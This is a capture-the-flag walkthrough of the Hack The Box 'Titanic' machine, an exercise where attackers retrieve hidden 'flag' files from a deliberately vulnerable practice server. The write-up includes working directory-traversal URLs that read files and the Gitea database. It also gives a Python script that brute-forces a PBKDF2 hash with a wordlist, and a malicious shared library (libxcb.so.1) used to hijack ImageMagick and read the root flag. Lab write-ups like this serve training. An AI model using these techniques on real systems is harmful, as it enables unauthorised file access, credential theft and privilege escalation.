 # Titanic

```
Difficulty: Easy
Operating System: Linux
Hints: True
```
## ✅ Summary

| Step | User / Access | Technique Used                          | Result                                                                                                       |
| :--- | :------------ | :-------------------------------------- | :----------------------------------------------------------------------------------------------------------- |
| 1    | `N/A`         | **Nmap Scan**                           | Discovered open ports: `22` (SSH) and `80` (HTTP).                                                           |
| 2    | `N/A`         | **Directory Traversal**                 | Accessed `user.txt` by manipulating `ticket` parameter: `../../../../../../../home/developer/user.txt`.      |
| 3    | `N/A`         | **Subdomain Enumeration**               | Discovered `dev.titanic.htb`, identified as Gitea 1.22.1.                                                    |
| 4    | `N/A`         | **Gitea Database Leak**                 | Downloaded `gitea.db` via directory traversal: `../../../../../../home/developer/gitea/data/gitea/gitea.db`. |
| 5    | `developer`   | **Password Cracking (pbkdf2)**          | Extracted and cracked developer password hash using a custom Python script.                                  |
| 6    | `developer`   | **User Shell Access**                   | Logged in as `developer` and retrieved `user.txt`.                                                           |
| 7    | `root`        | **ImageMagick Exploit (CVE-2024-xxxx)** | Created malicious `libxcb.so.1` to execute code during image processing, exfiltrating `root.txt`.            |


## 🔍 Step 1 – Initial Enumeration

**Nmap Scan:**

```bash
nmap -sV -T4 titanic.htb
````

**Result:**

```
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10
80/tcp  open  http    Apache httpd 2.4.52
```

* Port 80 serves a web application.

---

## 📁 Step 2 – File Read (Directory Traversal)

Visited `http://titanic.htb` and clicked **Book Now**.

Used **Burp Suite** to intercept the HTTP request and found a file download mechanism with a `ticket` parameter.

### Exploit Directory Traversal:

```http
http://titanic.htb/download?ticket=../../../../../../../home/developer/user.txt
```

**Result:**

* Successfully downloaded and read `user.txt`.

---

## 🔎 Step 3 – Subdomain Fuzzing

Added entry to `/etc/hosts`:

```
10.10.x.x dev.titanic.htb
```

Visited `http://dev.titanic.htb` → Found a **Gitea service (version 1.22.1)**.

---

## 🗄️ Step 4 – Gitea Database Download

Knowing Gitea's database is usually located at `/data/gitea.db`, used directory traversal again:

```http
http://titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/gitea.db
```

* Successfully obtained `gitea.db`.

---

## 🔑 Step 5 – Crack Developer Password

Extracted password hash from the database:
`e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56`

Salt: `8bf3e3452b78544f8bee9400d6936d34`

Used a custom Python script to brute-force using the wordlist:

```python
import hashlib
import binascii

def pbkdf2_hash(password, salt, iterations=50000, dklen=50):
    hash_value = hashlib.pbkdf2_hmac(
        'sha256',
        password.encode('utf-8'),
        salt,
        iterations,
        dklen
    )
    return hash_value

def find_matching_password(dictionary_file, target_hash, salt):
    target_hash_bytes = binascii.unhexlify(target_hash)
    with open(dictionary_file, 'r', encoding='utf-8') as file:
        for line in file:
            password = line.strip()
            hash_value = pbkdf2_hash(password, salt)
            if hash_value == target_hash_bytes:
                print(f"Found password: {password}")
                return password
    return None

salt = binascii.unhexlify('8bf3e3452b78544f8bee9400d6936d34')
target_hash = 'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56'
dictionary_file = '/usr/share/wordlists/rockyou.txt'
find_matching_password(dictionary_file, target_hash, salt)
```

**Result:** Found the developer's password.

---

## 🚪 Step 6 – Login as Developer

```bash
ssh developer@titanic.htb
```

Located `user.txt` at `/home/developer/user.txt` and retrieved it.

---

## ⚡ Step 7 – Privilege Escalation via ImageMagick (CVE)

In `/opt/scripts/identify_image.sh`, identified that `libxcb.so.1` could be exploited.

### Exploit Path:

```bash
cd /opt/app/static/assets/images

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/rootflag");
    exit(0);
}
EOF
```

Also needed to copy a dummy image:

```bash
cp home.jpg home2.jpg
```

Waited for the script to execute, which read and exfiltrated the root flag to `/tmp/rootflag`.

Finally retrieved:

```bash
cat /tmp/rootflag
```

---

